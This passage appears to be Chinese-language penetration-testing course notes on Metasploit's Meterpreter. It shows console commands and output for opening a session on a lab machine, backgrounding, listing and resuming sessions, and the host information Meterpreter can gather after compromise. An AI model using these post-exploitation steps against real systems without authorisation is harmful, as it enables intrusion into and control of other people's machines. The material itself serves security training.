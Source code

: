 ## Launching Meterpreter（启动 Meterpreter）
为攻击设置正确的有效负载后，您必须运行漏洞利用程序以获取 Meterpreter **会话**：

```
msf exploit(handler) > exploit

[*] Started bind handler
[*] Starting the payload handler...
[*] Sending stage (77048 bytes) to 192.168.75.28
[*] Meterpreter session 1 opened (192.168.75.17:50082 -> 192.168.75.28:5555) at 2015-02-20 12:49:08 +0100

meterpreter >
```

Meterpreter 会话是目标机器上的高级 shell。
在下面的幻灯片中，您将看到如何管理会话和使用 Meterpreter 提供的主要功能。

## Sessions（会话）
单个 MSFConsole 实例可以托管多个 Meterpreter 会话； 这意味着您可以在目标上实例化多个 shell 并在它们之间切换。
您可以使用`background`命令从 Meterpreter 会话切换到控制台：

```
meterpreter > background
[*] Backgrounding session 1...
msf exploit (handler) >
```

然后，您可以使用 `session -l` 命令列出当前打开的会话。

```
msf exploit(handler) > session -l

Active sessions
===============
Id      Type                    Information         Connection
--      ----                    -----------         ----------
1       meterpreter x86/win32   els\els @ ELS       192.168.75.17:50082 ->
                                                    192.168.75.28:5555 (192.168.75.28)
```

192.168.75.17:50082：Address of the attacker machine（攻击者地址）
192.168.75.28:5555：Address of the victim machine（受害机器的地址）

要恢复后台会话，您必须使用 `sessions -i` 命令。

```
msf exploit(handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter >
```

## Information Gathering with Meterpreter（使用 Meterpreter 收集信息）
Meterpreter 允许您在被利用的机器及其连接的网络上执行信息收集。 您可以检索：
* 有关机器和操作系统的信息
* 正在使用的网络配置
* 受感染主机的路由表
* 有关运行被利用进程的用户的信息
